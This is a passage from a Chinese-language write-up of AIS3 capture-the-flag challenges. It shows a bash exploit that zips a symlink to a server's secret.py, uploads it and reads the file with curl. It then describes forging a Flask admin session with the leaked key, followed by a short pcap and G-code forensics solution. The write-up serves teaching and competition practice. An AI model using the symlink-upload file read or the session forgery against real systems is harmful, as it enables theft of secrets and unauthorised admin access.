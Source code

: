 ```bash
# 建立 soft link 並加到壓縮檔
ln -s /app/secret.py go.png
zip -y go.zip go.png
# 建立一個檔案並加密，讓伺服器上的 unzip 失敗
touch uwu
zip -e go.zip uwu
# 上傳壓縮檔後讀取檔案
curl http://chals1.ais3.org:51414/image/6ae4c069ed1dfbae91eece4c34ebbdc3/go.png
secret="No_Sumimi...OnlyAveMujuca"
```

取得 LFI 之後，我們可以讀取到 `secret.py` 的內容，根據原始碼可以發現 `secret` 變數會作為 Flask 的 Session Key，因此我們可以透過修改 `session['admin']` 來取得 flag。由於對 Flask 的 Session 實作相關細節不熟悉，我的解法是直接架起一個 Flask 伺服器，並使用同樣的 `secret` 竄改 Session 來取得 flag。

Flag: `AIS3{So_Crazy...MyGO!!!!!_is_Dead}`

## Misc

### Three Dimensional Secret

題目作者：[ja20nl1n](https://x.com/jasonlin1222)\
題目難度：Easy\
解題人數：174/328

題目提供了 pcapng 檔案，拿去 Wireshark 做封包分析，複製整個 TCP Stream 後可以發現是 3D 印表機和某個軟體溝通時的 G-code，將其貼到線上 G-code Viewer 後就可以取得 Flag。

![wireshark](wireshark.webp)